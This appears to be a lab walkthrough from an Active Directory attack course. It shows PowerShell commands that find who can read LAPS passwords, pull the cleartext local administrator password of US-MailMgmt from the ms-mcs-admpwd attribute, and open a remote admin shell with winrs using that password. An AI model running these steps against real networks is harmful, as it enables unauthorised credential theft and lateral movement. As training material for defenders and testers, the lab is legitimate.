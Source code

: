 # Hands-on 8: LAPS

- [Hands-on 8: LAPS](#hands-on-8-laps)
  - [Task](#task)
  - [Identify OUs where LAPS is in use and user(s) who have permission to read passwords](#identify-ous-where-laps-is-in-use-and-users-who-have-permission-to-read-passwords)
  - [Abuse the permissions to get the clear text password(s)](#abuse-the-permissions-to-get-the-clear-text-passwords)

---

## Task

- Identify OUs where LAPS is in use and user(s) who have permission to read passwords.
- Abuse the permissions to get the clear text password(s).

<br/>

---

## Identify OUs where LAPS is in use and user(s) who have permission to read passwords

First import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Import `Get-LapsPermission.ps1` as well:

```
. C:\AD\Tools\Get-LapsPermission.ps1
```

![picture 10](images/6454203976307a0417a52073e3e367df35a519b2495d18a2566308decb5dabb8.png)  

- `US\studentusers` has the LDAPS Read permission on the OU `MailMgmt`. 

<br/>

---

## Abuse the permissions to get the clear text password(s)

Check the computers in the `Mgmt` OU:

```
Get-ADComputer -Filter * | ? { $_.DistinguishedName -match "MailMgmt" }
```

![picture 11](images/a0a4f86e8ee8f95d94be3ca54817d1204e6116dcbda402f772fcb15da6ee9e07.png)  

- Computer: `US-MailMgmt`

Since the current user `studentuser64` is in the group `US\studentusers`, we can use AD Module to read the LAPS:

```
Get-ADComputer -Identity US-MailMgmt -Properties ms-mcs-admpwd | Select -ExpandProperty ms-mcs-admpwd
```

![picture 12](images/80eaadd7555f764bd3c7cefbaf89acae4f9484a35f9c2110287ddfdb23531d54.png)  

- The cleartext password in LAPS is `03/%Bg}o&4fGEz`

<br/>

Try to access using the local admin password found:

```
winrs -r:us-mailmgmt.us.techcorp.local -u:.\administrator -p:"03/%Bg}o&4fGEz" cmd.exe
```

![picture 13](images/75637d8cd3d3caf2432ccbb22504fcd4bab60837a89aaf8955246af4f0fa5122.png)  


<br/>

---